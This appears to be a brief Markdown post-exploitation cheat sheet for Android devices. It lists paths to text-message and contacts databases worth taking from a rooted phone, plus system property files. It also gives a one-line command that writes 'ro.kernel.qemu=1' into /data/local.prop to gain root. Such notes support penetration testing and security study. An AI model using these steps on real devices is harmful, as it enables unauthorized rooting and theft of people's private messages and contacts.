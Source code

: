 # Android

##Files to grab

###Text Messages (Needs Root):

```
/data/data/com.android.providers/telephony/databases/mmssms.db
/data/data/com.android.providers.telephony/databases/mmssms.db
```

###Contacts (Needs Root):

```
/data/data/android.providers.contacts/databases
```

###Local System Settings:

```
/data/local.prop
```

If you can write to this file the following line will grant root:

```
echo "ro.kernel.qemu=1" > /data/local.prop
```

###Device Settings:

```
/system/build.prop
```

